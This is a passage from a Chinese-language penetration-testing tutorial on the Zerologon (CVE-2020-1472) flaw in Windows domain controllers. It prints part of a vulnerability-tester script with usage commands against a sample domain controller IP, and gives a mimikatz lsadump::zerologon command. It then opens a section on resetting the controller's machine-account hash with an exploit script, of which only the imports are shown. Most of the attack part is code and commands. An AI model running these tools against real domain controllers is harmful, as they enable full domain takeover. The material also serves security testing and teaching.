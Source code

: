 ```


def perform_attack(dc_handle, dc_ip, target_computer):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)

    if not rpc_con:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
```  
- 使用方法，如图的提示说明存在该漏洞  
```
python zerologon_tester.py DC主机名 DCip
python zerologon_tester.py AD-server2016 10.10.1.228
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkpt3dEQiaCPts06icwwF56eXh3rPstVd0sJc2XJpZoWSBTD1QjMuzwS4BwA/640?wx_fmt=png&from=appmsg "")  
### 方式2：通过mimikatz判断  
- 用法  
```
mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.10.1.228 /account:AD-server2016$" "exit"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkpt8j3gZVVkKtho2mEkJMZd0aTWh65KrEBcEc1HpL0aSiaKsnZTStd5q2g/640?wx_fmt=png&from=appmsg "")  
## 重置域控机器哈希  
### 方式1：通过脚本cve-2020-1472-exploit.py重置  
- 代码  
```
#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
```